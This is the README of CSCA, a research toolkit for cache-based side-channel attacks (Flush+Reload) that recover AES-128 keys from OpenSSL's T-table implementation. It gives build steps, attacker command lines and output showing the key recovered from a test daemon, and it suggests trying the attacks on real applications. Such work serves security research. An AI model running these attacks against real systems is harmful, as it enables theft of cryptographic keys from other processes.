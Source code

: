 # CSCA (Crypto Side Channel Attack)

- CSCA (Crypto Side Channel Attack) toolkit
- AES one round attack, AES last round attack

## Which attacks do CSCA implement?

- aes one round attack to get 64bit of AES-128 key
- aes last round attack to get full AES-128 key
- Should be added more!

## Internal of CSCA attacks

- All attacks have implemented by refering several papers. [1], [2]
- All attacks are cache-based side channel attack.
- If you are interested in details how crypto attacks work, Please see papers [1], [2].
- If you are interested in details how cache measurement work, Please see papers [4], [5].

## Does it really work?

- Yes! Since this is cache based side channel attack, You can easily test this on Linux distros.
- The main goal of CSCA is to implement crypto side channel attacks which can be fully working on PC without additional efforts.
- Please see "How to build", "How to run" sections.

## libflush

- CSCA leverage libflush library [3] to perform various cache maintenance operations.
- CSCA use Flush+Reload [4] technique for cache measurement. It's best solution ever for cache measurement.

## Target crypto library

- As for now, attacks on openssl have implemented only. (4kb AES T-table implementation)
- CSCA attacks can be easily ported to other crypto library.
- last-round-attack, one-round-attack are implemented as a library, So that It makes porting to other crypto library easier.

## Target application, environment

- CSCA doesn't attack real application. I made some applications, and an environment to test CSCA attacks.
- But, you can try to attack real application with CSCA libraries for last round attack, one round attack.
- security_daemon :  Daemon which provides encryption service. It has hard-coded crypto key which is not visible to other process.
- attacker :  Attacker which perform attacks with attack library (last round attack, one round attack)
- attacker and security_daemon are different process, but they can communicate via IPC.
- attacker sends plain text to security_daemon, and security_daemon encrypts it with crypto key, and return encrypted text.
- attacker repeats above encryption process, and predict what real key value is.

## Directories

- lib/ :  various libraries which CSCA uses
- lib/last_round_attack/  :  core library for AES last round attack
- lib/one_round_attack/  : core library for AES one round attack
- lib/libflush/  :  libflush library
- lib/openssl-1.0.2/   : openssl library
- aes-attack/last-round-attack/  :  attacker and security daemon to test last round attack, The attacker use above last round attack library.
- aes-attack/one-round-attack/   :  attacker and security daemon to test one round attack, The attacker use above one round attack library.

## How to build (on Linux distros such as Ubuntu)
	```
	$ ./build_x86_64.sh
	```

## How to run one-round-attack

* Get T-table offset from crypto library
	```
	$ cd build/aes-attack/one-round-attack/real-security-daemon
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te0   ==> 000000000016be40 r Te0
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te1   ==> 000000000016ba40 r Te1
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te2   ==> 000000000016b640 r Te2
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te3   ==> 000000000016b240 r Te3
	  These offsets should be used as input for attacker.
	```

* Run security daemon
	```
	$ cd build/aes-attack/one-round-attack/real-security-daemon
	$ LD_PRELOAD=../../../lib/libcrypto.so.1.0.0 ./security_daemon &
	  security_daemon is running...
	  real key : a2981898c47187538cde1709dbd9ab40
	```

* Run attack
	```
	$ cd build/aes-attack/one-round-attack/real-security-daemon
	$ ./attacker 600 1 250 0016be40 0016ba40 0016b640 0016b240 ../../../lib/libcrypto.so.1.0.0
	  security_daemon_connect success
	  plain_text_cnt : 600
	  calculating all subsets...
	  progress : 4096 / 2457600
	  (.... repeat ....)
	  predict key : a0901090c070805080d01000d0d0a040  ==> final result of attack
	  ....
	  real key : a2981898c47187538cde1709dbd9ab40
	  predict key : a0901090c070805080d01000d0d0a040
	  Recover [64] bits success!!  ==> How many bits are predicted correctly
	```

## How to run last-round-attack

* Get T-table, rcon offset from crypto library
	```
	$ cd build/aes-attack/last-round-attack/real-security-daemon
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te0   ==> 000000000016be40 r Te0
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te1   ==> 000000000016ba40 r Te1
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te2   ==> 000000000016b640 r Te2
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep Te3   ==> 000000000016b240 r Te3
	$ nm ../../../lib/libcrypto.so.1.0.0 | grep rcon  ==> 000000000016a100 r rcon
	  These offsets should be used as input for attacker.
	```

* Run security daemon
	```
	$ cd build/aes-attack/last-round-attack/real-security-daemon
	$ LD_PRELOAD=../../../lib/libcrypto.so.1.0.0 ./security_daemon &
	  security_daemon is running...
	  real key : a2981898c47187538cde1709dbd9ab40
	```

* Run attack
	```
	$ cd build/aes-attack/last-round-attack/real-security-daemon
	$ ./attacker 600 250 0016be40 0016ba40 0016b640 0016b240 0016a100 ../../../lib/libcrypto.so.1.0.0
	  security_daemon_connect success
	  plain_text_cnt : 600
	  progress : 0 / 600
	  (.... repeat ....)
	  predict last round key : 9886c881cad8676e0f01eb4a30df89f5   ==> get last round key via last-round-attack
	  invert round key!!  ==> invert from last round to first round key (real key)
	  ....
	  real key : a2981898c47187538cde1709dbd9ab40
	  predict key : a2981898c47187538cde1709dbd9ab40
	  Recover [16] byte success!!  ==> How many bytes are predicted correctly
	```

## Tested machine

- PC, 4.4.0-62-generic #83-Ubuntu (Ubuntu 16.04), x86_64
- Raspberry pi3, Cortex-A53, ARMv8

## Contact

- Jinbum Park <jinb.park7@gmail.com>

## References

- [1] Cache Attacks and Countermeasures: the Case of AES (https://www.cs.tau.ac.il/~tromer/papers/cache.pdf)
- [2] Wait a minute! A fast, Cross-VM attack on AES (https://eprint.iacr.org/2014/435.pdf)
- [3] libflush (https://github.com/IAIK/armageddon/tree/master/libflush)
- [4] FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack (https://eprint.iacr.org/2013/448.pdf)
- [5] ARMageddon: Cache Attacks on Mobile Devices (https://www.usenix.org/system/files/conference/usenixsecurity16/sec16_paper_lipp.pdf)


